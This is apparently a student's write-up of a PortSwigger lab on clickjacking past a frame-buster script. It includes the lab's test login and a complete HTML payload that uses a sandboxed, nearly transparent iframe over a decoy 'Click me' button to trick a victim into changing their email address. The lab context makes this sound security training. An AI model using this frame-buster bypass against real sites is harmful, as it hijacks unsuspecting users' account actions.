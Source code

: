 
# Clickjacking with a frame buster script

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/clickjacking



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/1.png)

---------------------------------------------

If the user profile is accessed with the parameter “email”, the email field gets populated:



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/2.png)


If we try to use the payload from previous labs we get this error:



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/3.png)

We can add 'sandbox="allow-forms"' to the iframe code to avoid this problem, so we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a11003f031a6dc080b6033a0090001e.web-security-academy.net/my-account?email=test@test.com" sandbox="allow-forms">
	</iframe>
</body>
```



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/4.png)